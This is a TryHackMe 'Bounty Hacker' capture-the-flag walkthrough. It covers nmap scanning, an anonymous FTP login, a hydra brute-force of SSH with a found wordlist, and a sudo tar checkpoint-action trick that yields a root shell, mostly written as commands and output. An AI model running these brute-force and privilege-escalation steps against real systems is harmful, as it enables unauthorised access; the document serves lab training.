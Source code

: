 ```yaml
---
title: THM Bounty Hacker Writeup
categories:
  - TryHackMe
  - Writeup
tags:
  - THM
  - Try Hack Me
  - Walkthrough
  - Writeup
  - Bounty Hacker
---  
```


[Link to Room](https://tryhackme.com/room/cowboyhacker)  

Start off with an nmap scan:
`sudo nmap -A 10.10.144.76 -v`   
We got a hit for 3 ports:  
<!--end-->   
```
21/tcp    open   ftp             vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.1.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp    open   http            Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```  
We see from an NSE script that Anonymous FTP login is allowed, which is a common misconfiguration and an easy way to gain information. Lets login to see whats there:
```
$ ftp 10.10.144.76
Connected to 10.10.144.76.
220 (vsFTPd 3.0.3)
Name (10.10.144.76:yosef): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We list the directory:
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
We found two txt files, lets get them and see whats there.
locks.txt appears to be a wordlist, so well keep that for when we find a username.
Turns out, the task.txt file gives us a username `lin`, so lets try to bruteforce SSH with what we have. We will use hydra for this one.  
`hydra -l lin -P locks.txt ssh://10.10.144.76 -t 4`  
The -t 4 flag only runs 4 tasks at once, since many SSH configurations wont allow more.
After a little bit we get the login:
`[22][ssh] host: 10.10.144.76   login: lin   password: <CENSORED>`  
Great, now lets try to SSH in ourselves.
```
$ ssh lin@10.10.144.76
The authenticity of host '10.10.144.76 (10.10.144.76)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.144.76' (ECDSA) to the list of known hosts.
lin@10.10.144.76's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```  
We're in. We can now get the user flag located in the users Desktop folder.  
  
First thing we should always run is `sudo -l` to check if the user can run anything as root (Or another user for that matter). It is the most common and easiest way to privesc.
we get:
```
$ sudo -l
[sudo] password for lin: 
  
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```  
We are allowed to run tar as root. tar is a file archiving binary; these are often very easy to exploit to get a root shell when we can run them as sudo or SUID/SGID.
We run:  
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`  
What this is doing is running tar to create an archive from the files `/dev/null` and `/dev/null`, which are the same thing - a null device; basically means you can write anything to there and it would act as if it was written when its actually just deleted. The `--checkpoint-action=exec=/bin/sh` is saying that its wants to execute `/bin/sh` (A shell) on each chekpoint (we technically only need the first).  
Running this automatically gives us a root shell as excpected:
```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami 
root
```  

